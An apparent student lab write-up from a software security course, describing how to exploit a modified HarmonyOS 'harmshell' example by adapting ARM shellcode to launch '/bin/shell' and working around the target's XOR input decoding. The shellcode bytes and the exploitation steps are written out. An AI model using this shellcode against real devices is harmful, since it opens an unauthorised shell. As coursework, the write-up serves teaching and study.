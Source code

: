 <center><font size=7>《软件安全》final</font></center><br /><div align='right'><font size=4><b>陈希尧</b> 3180103012</font></div>

[TOC]

# Lab

## 01_harmshell

### Exploit

Using the modified harmony example which use shell as the boot program:

```shell
OHOS # ls /bin
Directory /bin:
-rwxrwx--- 25828    u:0     g:999   init      
-rwxrwx--- 25824    u:0     g:999   shell     
-rwxrwx--- 50484    u:0     g:999   bundle_daemon
-rwxrwx--- 13540    u:0     g:999   query.bin 
-rwxrwx--- 13440    u:0     g:999   foundation
-rwxrwx--- 13540    u:0     g:999   media_server
-rwxrwx--- 21724    u:0     g:999   appspawn  
-rwxrwx--- 25924    u:0     g:999   wms_server
-rwxrwx--- 13540    u:0     g:999   abilityMain
-rwxrwx--- 13488    u:0     g:999   camera_app
-rwxrwx--- 13792    u:0     g:999   hilogcat  
-rwxrwx--- 13488    u:0     g:999   apphilogcat
```

We can found that the shell is `/bin/shell` instead of `/bin/sh`. So we can modify an existing shellcode's "/bin/sh" to "/bin/shell" and crack the target.

```python
shellcode = b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf\x2f\x62\x69\x6e\x2f\x73\x68";
shellcode = b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf/bin/sh";
shellcode = b"\x01\x30\x8f\xe2\x13\xff\x2f\xe1\x78\x46\x08\x30\x49\x1a\x92\x1a\x0b\x27\x01\xdf/bin/shell";
```

Then, since the camera_app has use a xor key to decode the payload, we need to encode the shellcode first

```c
void readstring(char *out) {
    char tmp;
    unsigned int i = 0;
    do {
        read(0, &tmp, 1);
        if (tmp == '\n') {
            out[i] = '\x00';
        } else {
            tmp    = tmp ^ key[0];
            out[i] = tmp;
        }
        i++;
    } while (tmp != '\n');
}
```
